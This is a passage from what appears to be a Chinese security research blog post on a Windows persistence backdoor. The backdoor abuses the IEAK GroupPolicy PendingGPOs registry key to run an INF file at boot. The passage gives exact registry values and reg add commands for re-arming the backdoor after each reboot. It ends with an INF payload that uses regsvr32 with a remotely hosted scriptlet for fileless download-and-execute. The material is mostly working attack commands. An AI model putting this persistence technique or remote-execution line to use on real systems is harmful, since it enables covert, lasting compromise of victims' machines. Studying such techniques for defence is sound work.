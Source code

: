 3.新建注册表项

- HKEY_CURRENT_USER\Software\Microsoft\Ieak\GroupPolicy\PendingGPOs，Count, REG_DWORD，1
- HKEY_CURRENT_USER\Software\Microsoft\Ieak\GroupPolicy\PendingGPOs，Path1，REG_SZ，"c:\test\test.inf"
- HKEY_CURRENT_USER\Software\Microsoft\Ieak\GroupPolicy\PendingGPOs，Section1，REG_SZ，"DefaultInstall"

**注：**

原文中Section1的值为`[DefaultInstall]`，经测试，此处存在bug，正确的值应该为`DefaultInstall`

注册表设置如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-10/2-1.png)

4.重启系统

系统启动后执行putty.exe，复现成功

**注：**

系统重启后该注册表会被清除，为了保证下次重启系统时再次触发后门，需要再次修改注册表，添加对应的键值，可供参考的cmd命令如下:


```
reg add hkcu\SOFTWARE\Microsoft\IEAK\GroupPolicy\PendingGPOs /v Count /t REG_DWORD /d 1
reg add hkcu\SOFTWARE\Microsoft\IEAK\GroupPolicy\PendingGPOs /v Path1 /t REG_SZ /d "c:\test\test.inf"
reg add hkcu\SOFTWARE\Microsoft\IEAK\GroupPolicy\PendingGPOs /v Section1 /t REG_SZ /d "DefaultInstall"
```

## 0x05 方法优化
---

### 1.inf文件不需要同要启动的exe文件同名

inf文件名称可以任意，例如test.inf

**注：**

原文描述需要inf文件同exe文件同名

### 2.inf文件内容格式不固定

`AdvancedINF=2.5,"You need a new version of advpack.dll"`可修改为`AdvancedINF=2.5,"11111111"`

### 3.inf文件的payload不唯一

还可以实现文件拷贝、删除，注册表键值的更新，子键删除等功能

如果是执行命令，可以同sct结合实现无文件落地，例如实现远程下载执行的文件内容如下：

```
[Version]
Signature="$CHICAGO$"
AdvancedINF=2.5,"advpack.dll"
[DefaultInstall]
RunPreSetupCommands=Command1
[Command1]
regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```
